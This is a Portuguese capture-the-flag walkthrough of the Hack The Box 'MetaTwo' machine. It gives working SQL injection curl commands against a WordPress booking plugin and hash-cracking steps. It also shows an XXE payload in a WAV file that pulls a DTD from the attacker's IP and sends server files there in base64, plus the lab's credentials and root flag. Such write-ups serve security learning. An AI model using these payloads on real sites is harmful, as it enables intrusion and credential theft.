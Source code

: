 # MetaTwo

## Enumeration

Ultilizei a ferramenta nmap para o scan inicial do servidor:
```
nmap -A -T4 -p- 10.10.11.186 | tee nmap-all.txt
```
Nmap Results: 
21/tcp open  ftp?
    | fingerprint-strings: 
    |   GenericLines: 
    |     220 ProFTPD Server (Debian)
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
    http-title: Did not follow redirect to http://metapress.htb/

Ao entrar no servidor WEB ele te redireciona para o dominio metapress.htb
Adicionando esse dns na minha maquina :
```
echo "10.10.11.186   metapress.htb" | sudo tee -a /etc/hosts 
```

Scan de Servidores WEB:
```
nikto -url 10.10.11.186| tee nikto.txt
```
Nikto Results: 
/: Retrieved x-powered-by header: PHP/8.0.24.
/wp-login.php: Wordpress login found. Olhando achamos => generator="WordPress/5.6.2" 

Como o servidor é WordPress, a melhor ferramenta para o trabalho é wpscan, um scan especializado em WordPress:
```
wpscan --url http://metapress.htb/ --enumerate
```
WPscan Results:
[+] robots.txt found: http://metapress.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php

[!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8 (Caso logado)
[+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php
[i] User(s) Identified:
    [+] admin
    [+] manager

Scan com Dirbuster resultou em muuuuitos arquivos. 

## Tentativas Falhas

### SQL e SSTI
Olhando no blog temos um campo de pesquisa e no /wp-login. Testes:
SQLi (Wappalyzer diz que o banco é MySQL)
```
' OR 1=1 -- -
" OR 1=1 -- -
```
Tentando receber um codigo 500 ou resposta entranha:
```
${{<%[%'”}}%\.
```
_Sem Resultado_

### XML rpc
Xml rpc rota estava ativada
```
POST /xml.rpc
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
Retorna alguns metodos, porem nao encontrei nenhum util 

_Sem Resultado_

### Brute Force
Buscando ProFTPD exploit, encontrei mod_copy exploit, podendo rodar os comandos 'site cpfr' e 'site cpto' e acessando o servidor web, é possivel ter um RCE (Executar comandos remotamente e arbitrariamente)
Telneting no servidor ftp, conseguir rodar alguns comandos, porem nada util. (Pede Usuario e Senha)
Necessario de um login e senha valido para exploitar a maquina


Brute Force com hydra no /wp-login.php com usuario encontrado admin (Sinceramente no calor do momento não percebi o outro)
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt metapress.htb http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmetapress.htb%2Fwp-admin%2F&testcookie=1:is incorrect" -V -K
```
_Sem Resultado_

Tentando fazer bruteforce no servidor ftp, formulei um script simples em python(ftp-brute.py) para tentar logar com algumas senhas default, tomando o usario que achei no WP-scan(admin) 
```
python3 ftp-brute.py 10.10.11.186 admin passw.txt
```
_Sem Resultado_

## Exploit

No source code do /events/ tem o plugin do calendario: 
```
<link rel='stylesheet' id='bookingpress_element_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_element_theme.css?ver=1.0.10' media='all' />
```
Procurando no google bookingpress 1.0.10 exploit:

BookingPress < 1.0.11 - Unauthenticated SQL Injection
O input 'total_service' esta vulneravel a SQLi

Mas primeiro para testar essa vulnerabilidade precisamos do _wponce, que é um token gerado pelo servidor para garantir que foi o usuário que fez a requisição e não é algo forjado. Para isso ultilizei da ferramenta Burp Suite, que intercepta o tráfico de requisições e é possivel pegar esse token.

Requisição teste SQLi:
```
curl http://metapress.htb/wp-admin/admin-ajax.php -H 'Cookie: wordpress_test_cookie=WP%20Cookie%20check' --data 'action=bookingpress_front_get_category_services&_wpnonce=b444da7ea7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,@basedir,system_user(),schema() FROM information_schema.tables-- -' | jq
```
Conseguimos a versão 10.5.15-MariaDB-0+deb11u1, usuario do banco blog@localhost

Agora podemos extrair os logins. Pesquisando a estrutura de logins de wordpress, DBname = wp_users com principais fields user_login e user_pass:
``` 
curl http://metapress.htb/wp-admin/admin-ajax.php -H 'Cookie: wordpress_test_cookie=WP%20Cookie%20check' --data 'action=bookingpress_front_get_category_services&_wpnonce=b444da7ea7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,user_login,user_pass FROM wp_users-- -' | jq
``` 
Conseguimos: admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. e manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

Usando hashcat para crackear as senhas:
```
hashcat -a 0 -m 400 metapress.htb.txt rockyou.txt
```
Crackeado credencial do usuário manager:partylikearockstar

### Logando no site

Logando com as credenciais e mexendo nas opções encontrei um upload de arquvios em /wp-admin/upload.php. Tentando mandar um arquivo .php o server manda um erro: "Sorry, this file type is not permitted for security reasons." 

Olhando novamente os resultados do WP scan encontramos um CVE com WordPress 5.6-5.7 (Source: https://github.com/AssassinUKG/CVE-2021-29447) envolvendo o upload de arquivos. Ao receber o payload o servidor executa fazendo uma requisição arbitraria para minha maquina, podendo assim ler qualquer arquivo que o www-data tenha permissao

Criando payload:
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.71:80/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Usando python server para servir o codigo a ser executado:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.71:80/?p=%file;'>" >
```

Após a preparação, dou o upload do arquivo 'payload.wav', onde o servidor executa o codigo XML nos retornando uma resposta em base 64, decoficando temos o conteudo do /etc/passwd encontrando o usuario da maquina jnelson

Tentativas de fazer o mesmo lendo alguns arquivos como /etc/shadow, /home/jnelson/.ssh/id_rsa
_Sem Resultado_

Apos ler o conteudo de /etc/nginx/sites-enabled/default podemos descobrir o PATH do servidor web: /var/www/metapress.htb/blog
Agora podemos ler wp-config.php em var/www/metapress.htb/blog/wp-config.php
wp-config.php:
```
define( 'DB_USER', 'blog' );
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```
Agora podemos logar no proftpd com metapress.htb:9NYS_ii@FyL_p5M2NvJ
E lá encontramos send_email.php com credencias de ssh => jnelson@metapress.htb:Cb4_JmWM8zUZWMu@Ys

E vua la, estamos dentro.  ( ͡° ͜ʖ ͡°) 

## POST exploit

Logando como jnelson e enumerando a maquina, pelo comando `id` e `groups` descobrimos que jnelson nao esta em nenhum grupo diferente, pelo comando `find` nao ha nenhum arquivo suid, com `ps aux` so é possivel ver os processos do nosso usuario. 
Listando arquivos escondidos no nosso diretorio, ha uma pasta fora do comum. ".passpie" Ao pesquisar esse nome, passpie é um gerenciador de credenciais feita em python que usa gpg (software de criptografia   ). Ao iniciar o programa, tem uma tabela com senhas de login jnelson e de **root**. Ao verificar possiveis comandos para pegar essas senhas, temos o comando `passpie export senhas.txt`, porem é necessario uma senha mestre.
A vasculhar a fundo essa pasta encontramos um arquivo .keys, que contem gpg key public e key privada. Essa senha privada é ultilizada para descriptografar as senhas guardadas pelo passpie, e ela requer uma senha mestre para ser desbloqueada.

Ao copiar para minha maquina podemos usar a ferramenta `gpg2john` para transformar a senha mestre em um hash. Depois mandamos para a ferramenta john tentar quebrar essa senha.

```
gpg2john gpg.key > john.hash
john john.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Crackeado!!! Senha mestre: blink182
Ao usar o passpie para exportar as senha novamente pra um arquivo, podemos ler a senha de root:
...
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: !!python/unicode 'p7qfAZt4_A1xo_0x'
...
Ao trocar para o usuario root, podemos ler a flag em /root/root.txt:6628d695149a9d2b5783fffb361adebd